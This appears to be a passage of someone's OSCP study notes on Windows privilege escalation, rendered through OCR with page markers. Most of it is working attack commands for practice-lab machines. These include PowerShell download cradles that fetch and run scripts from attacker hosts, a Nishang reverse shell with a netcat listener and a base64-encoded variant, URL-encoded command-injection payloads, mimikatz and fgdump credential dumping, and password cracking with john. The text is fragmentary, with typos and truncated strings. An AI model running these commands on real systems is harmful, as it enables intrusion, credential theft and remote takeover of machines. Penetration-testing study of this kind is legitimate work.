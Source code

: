 ```yaml
---
title: "OSCP: Windows Privilege Escalation"
last_modified_at: 2019-11-01T16:20:02-05:00
categories:
  - Cyber Security
tags:
  - OSCP
  - Windows
  - Privilege Escalation
---
```


```
icacls scsiaccess.exe
...
Everyone: (I)(F)
```
crosscompile useradd.c
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
wce -w
fgdump.exe
type 127.0.0.1.pwdump
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
Is there python on dev windows machine
Use pyinstaller on dev windows machine
python pyinstaller.py --onefile ms11-080.py
Check for powershell
powershell whoami
whaomi /priv
cmdkey /list
run an exploit suggesters
If web server poke around databasel
Check if I can write in folder
echo PleaseSubsribe > test
1. Nishang
2. unicorn → meterpreter from a standard shell
UPGRADE TO NISHANG 1. Locate the PS > Invoke...reverse shell line in script and put at bottom so it executes in memory after transfer
2. Server python -m SimpleHTTPServer 80
3. powershell “IEX(New-Object NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1')”
net user dan dan /add; net local
UNICORN
Exploit suggesters • Sherlock.ps1
• Powerup.ps1 → service misconfigs
• Exploit suggester ./windows-exploit-suggester.py
python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt
• jaws-enum.ps1
• Empire??
Sherlock.ps1
windows-exploit-suggester.py
Empire
PowerUp.ps1
46/67
locate PowerUp.ps1. Copy then add “Invoke-AllChecks” to end
http://10.10.10.9/ippsec.php?fexec=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.11:8000/
PowerUp.ps1%27)%20|%20powershell%20-noprofile%20-
Run Invokes from memory as the file transferred
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
1. jaws-enum.ps1 JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
BURP (ctr-U to url encode the following)
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object
NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1').}
powershell -ExecutionPolicy Bypass -File xyz.ps1
group Administrators dan /add
rdesktop 10.10.10.10 -u dan
2. jaws-enum.ps1 powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
PS C:\Users\Public\Desktop> dir
"ZKAccess3.5 Security System.lnk"
GET FILE CONTENTS SO WE KNOW HOW TO RUN AS ADMIN
get-Content "ZKAccess3.5 Security System.lnk" == linux “file”
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem *.lnk
$Wscript.CreateShortcut($shortcut)
FullName : C:\Users\Public\Desktop\ZKAccess3.5
Security System.lnk
Arguments : /user:ACCESS\Administrator /savecred
"C:\ZKTeco\ZKAccess3.5\Access.exe"
Description :
Hotkey :
IconLocation : C:\ZKTeco\ZKAccess3.5\img\AccessNET.
ico,0
RelativePath :
TargetPath : C:\Windows\System32\runas.exe
WindowStyle : 1
WorkingDirectory : C:\ZKTeco\ZKAccess3.5
runas /user:ACCESS\Administrator /savecred whoami
This string 'http://10.10.14.3:8000/9002.ps1'
To this encoding prior to base64
--to-code UTF-16LE
Full command in kali
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/9002.ps1')" | iconv --to-code UTF-16LE |
47/67
base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Set up listener on KALI
nc -nlvp 9002
runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Use mimikatz
Need write access to download, go to your users desktop
(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
didnt work
tried from telnet sessiondir
powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
not recog as command
github Generic-AppLockerbypasses.md
Empire Chatterbox
Look at original nmap scan for other shite running (nmap localhost)
check permissions on webserver echo PleaseSubscribe > test
FAILS
Directory: C:\inetpub\wwwroot
Mode LastWriteTime Length Name
---- ------------- ------ ----
d---- 8/21/2018 11:30 PM aspnet_cli
ent
-a--- 8/24/2018 12:33 AM 391 index.html
-a--- 8/24/2018 8:39 PM 88712 out.jpg
PASSWORDS cmdkey /list - is a stored pw
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
→ Use Mimikatz
48/67
KERNEL EXPLOITS If no service packs or Hotfixes then possibly vulnerable to kernel exploits
pgdump.exe, pwdump.exe, fgdump.exe
type 127.0.0.1 pwdump
wce32.exe -w
wce64.exe -w
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords # gets passwords
Hashed passwords
https://crackstation.net
https://hashkiller.co.uk
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
